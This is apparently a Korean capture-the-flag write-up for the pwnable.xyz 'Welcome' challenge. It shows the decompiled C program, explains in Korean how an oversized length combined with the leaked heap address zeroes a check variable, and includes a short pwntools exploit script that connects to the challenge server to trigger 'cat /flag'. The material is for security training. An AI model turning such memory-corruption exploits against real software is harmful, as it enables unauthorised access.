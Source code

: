 ```yaml
---
title: "[pwnable.xyz]Welcome"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rbx
  __int64 v4; // rdx
  char *message; // rbp
  __int64 v6; // rdx
  size_t v7; // rdx
  size_t size; // [rsp+0h] [rbp-28h]
  unsigned __int64 v10; // [rsp+8h] [rbp-20h]
 
  v10 = __readfsqword(0x28u);
  sub_B4E();
  puts("Welcome.");
  v3 = malloc(262144uLL);
  *v3 = 1LL;
  _printf_chk(1LL, "Leak: %p\n", v3);
  _printf_chk(1LL, "Length of your message: ", v4);
  size = 0LL;
  _isoc99_scanf("%lu", &size);
  message = malloc(size);
  _printf_chk(1LL, "Enter your message: ", v6);
  read(0, message, size);
  v7 = size;
  message[size - 1] = 0;
  write(1, message, v7);
  if ( !*v3 )
    system("cat /flag");
  return 0LL;
}

```

중요한 부분은 if문인데 !*v3가 0이 되도록하면 풀 수 있겠다. 처음에 *v3 = 1 돼있다.

v3를 할당해주고 v3 주소를 Leak 해준다.

메세지를 size만큼 할당하고 그 size만큼 message를 입력받을 수 있다. 근데 message[size - 1]로 마지막 인덱스를 0으로 만들어버리니까 Leak 주소 + 1을 size로 보내면 *v3 = 0으로 되서 풀 수 있다.

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30000)
 
p.recvuntil('Leak: ')
leak = int(p.recvline(),16)
log.info('leak : ' + hex(leak))
p.sendlineafter(': ',str(leak+1))
p.sendlineafter(': ','Hello World!')
p.interactive()
```

